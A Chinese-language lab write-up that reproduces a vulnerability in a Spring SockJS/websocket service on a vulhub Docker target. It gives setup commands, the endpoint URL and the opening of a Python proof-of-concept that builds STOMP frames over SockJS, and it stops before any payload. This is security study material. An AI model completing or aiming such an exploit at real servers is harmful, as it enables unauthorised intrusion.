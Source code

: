 #### 漏洞搭建

```php
cd 
sudo docker-compose up -d
```

![image-20210522092202285](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0bf6d86e108c659407c309fc5485756d77b0c505.png)

#### 漏洞复现

![image-20210522092220807](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7248ab22fd2f814fbffce3f3c475193f9a0e5d01.png)

访问

```php
http://192.168.175.209:8080/gs-guide-websocket
```

![image-20210522092400364](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-39cba45326c123da5ac556fc524b560de43ed87d.png)

#### Poc

```php
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json

logging.basicConfig(stream=sys.stdout, level=logging.INFO)

def random_str(length):
    letters = string.ascii_lowercase + string.digits
    return ''.join(random.choice(letters) for c in range(length))

class SockJS(threading.Thread):
    def __init__(self, url, *args, **kwargs):
        super().__init__(*args, **kwargs)
        self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
        self.daemon = True
        self.session = requests.session()
        self.session.headers = {
            'Referer': url,
            'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
        }
        self.t = int(time.time()*1000)

    def run(self):
        url = f'{self.base}/htmlfile?c=_jp.vulhub'
        response = self.session.get(url, stream=True)
        for line in response.iter_lines():
            time.sleep(0.5)

    def send(self, command, headers, body=''):
        data = [command.upper(), '\n']

        data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))

        data.append('\n\n')
        data.append(body)
        data.append('\x00')
```